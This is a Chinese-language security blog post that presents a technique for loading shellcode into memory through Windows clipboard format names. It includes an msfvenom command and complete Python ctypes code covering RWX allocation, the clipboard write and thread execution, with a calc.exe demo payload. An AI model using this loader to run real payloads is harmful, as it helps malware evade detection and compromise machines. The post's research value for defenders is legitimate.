 前言
==

最近研究内存加载器魔怔了，我们知道所有内存加载器原理都一个样：申请可执行内存-&gt;shellcode写入内存-&gt;执行该内存

申请内存还是比较好说的，去win开发手册搜搜就能找到很多申请内存的api，然后使用VirtualProtect将申请的内存区块设置为可执行即可

执行内存里面的内容也好说，使用CreateThread创建一个进程是常用的，或者使用EnumSystemLocalesA等回调函数直接运行也是可以的，这种回调函数在开发手册也随处可见

困难的是怎么把shellcode写入内存当中，在之前写入内存都是用RtlMoveMemory、RtlCopyMemory等函数，后来爆出一种UUID方式写入内存，我自己又延伸了MAC、IPV4、IPV6方式写入内存、再然后我发现读取注册表REG可以将内容写入内存。真是越走越远，越走越花里胡哨。。。

剪切板
===

什么是剪切板：剪切板是一组功能和使应用程序来传输的数据消息。由于所有应用程序都可以访问剪贴板，因此可以轻松地在应用程序之间或应用程序内传输数据。

剪切板格式：我们复制粘贴操作的对象有很多种，比如文字，图片，程序等等。每种类型的对象对应不同的剪切板格式，但这些格式都是已经定义好的，每个格式对应不同的标识值。

注册剪切板格式：顾名思义我们可以注册一个新的剪切板格式来存放我们的数据

剪切板加载器
======

没错，我又发现了一种写入内存的方式

昨天等项目的时候，无聊又去逛了逛win开发手册，看到了我们经常用的剪切板的各类api函数

我就随便逛了逛，哎？发现一个函数GetClipboardFormatName

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-0a8715c45977d5835d1ef031206bf6bb425449b4.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-0a8715c45977d5835d1ef031206bf6bb425449b4.png)  
能写入东西到缓冲区？这不来了吗

函数介绍
====

### RegisterClipboardFormat

该函数是user32.dll库中的函数，用来注册新的剪贴板格式。然后可以将此格式用作有效的剪贴板格式

函数原型：

<https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-registerclipboardformatw>

```php
UINT RegisterClipboardFormatW(
  LPCSTR lpszFormat
);
```

lpszFormat参数是新格式的名称

注册成功则返回一个该格式对应的标识值

```php
nameid = ctypes.windll.user32.RegisterClipboardFormatW('test')
```

### GetClipboardFormatName

该函数是user32.dll库中的函数，可以从剪贴板中检索指定注册格式的名称，并将名称复制到指定的缓冲区。

函数原型：

<https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getclipboardformatnamew>

```php
int GetClipboardFormatNameW(
  UINT   format,
  LPWSTR lpszFormatName,
  int    cchMaxCount
);
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-5cb2bc9cfe14468e09f0f6e5f36e1be3b4c5dfd5.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-5cb2bc9cfe14468e09f0f6e5f36e1be3b4c5dfd5.png)

这个函数是大致功能我们可以看到啊，检索我们指定格式的剪切板，将它的名称写入缓存区

写加载器
====

上面两个api函数一个是创建剪切板，一个是读取剪切板的名

我们如果用shellcode命名该剪切板，当我们读取该名称时不就可以将shellcode写入缓存区了？

首先生成shellcode，这里生成要注意排除\\x00字符，防止被截断。

```php
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -b="\x00" -f py -o 123.py
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-d20d544214093ad2d5654c58e03774868054801b.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-d20d544214093ad2d5654c58e03774868054801b.png)

然后申请一块内存

```php
ptr = ctypes.windll.kernel32.VirtualAlloc(0, len(buf)+1, 0x3000, 0x40)
```

使用shellcode当做名称，注册一个新的剪切板格式，这里shellcode一定排除\\x00字符，不然名称会被截断。

```php
name = ctypes.windll.user32.RegisterClipboardFormatW(buf)
```

获取该剪切板格式的名称，并写入申请的内存

```php
ctypes.windll.user32.GetClipboardFormatNameW(name,ptr,len(buf)+1)
```

然后创建进行运行即可

```php
handle = ctypes.windll.kernel32.CreateThread(0,0,ptr,0,0,0)
ctypes.windll.kernel32.WaitForSingleObject(handle,-1)
```

测试
==

使用py版本2.7，msf生成64位弹计算器payload

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b9d38d5a046b189dc238ab40c5e1568db3f1670f.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b9d38d5a046b189dc238ab40c5e1568db3f1670f.png)

成功运行